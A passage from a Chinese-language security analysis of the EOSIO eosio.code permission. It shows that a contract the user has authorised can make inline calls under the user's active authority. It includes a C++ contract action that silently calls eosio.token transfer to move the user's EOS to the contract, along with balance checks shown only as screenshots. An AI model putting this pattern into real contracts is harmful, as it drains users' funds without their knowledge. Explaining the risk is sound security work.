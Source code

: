 ![D6374071-12A1-4CC3-AD12-D4C80F939C5A](img/fddfee991a8add3857c12ba0cf937bba.jpg)

发现成功执行了 multiindex22 合约中的 test active。使用的是`lixutest1111@active`签名了该交易，但同时也拥有`eosiocode111@eosio.code`权限的签名，所以能成功进行跨合约调用。

### 3\. 用户潜在的危害

现在我们重新实现 eosiocode111 合约的 test active，将用户的钱转走。

```js
void eosiocode::test(account_name user)
{
    require_auth(user);

    print("before inline action");

    //内联调用外部 eosio.token 合约的 transfer　action
    asset value = asset(20000, symbol_type(symbol_name(string_to_symbol(4, "EOS"))));
    action(permission_level{user, N(active)},
           N(eosio.token),
           N(transfer),
           std::make_tuple(user, _self, value, std::string("memo")))
        .send();

    print("\nend of test ");
}
```

先查询 lixutest1111 的余额，再使用 lixutest1111 调用 eosiocode111 合约的 test action 前，最后再次查询 lixutest1111 的余额：

![969BDA4F-244A-421A-865C-1F711FA53933](img/6c403ea04efada1dcab944206140567e.jpg)

发现并未报错，再查看 nodeos 服务的日志：

![FCABF0CE-DA35-4963-BD73-D70A48C805CB](img/2e1d2e62355d80896ac933edeff3166b.jpg)
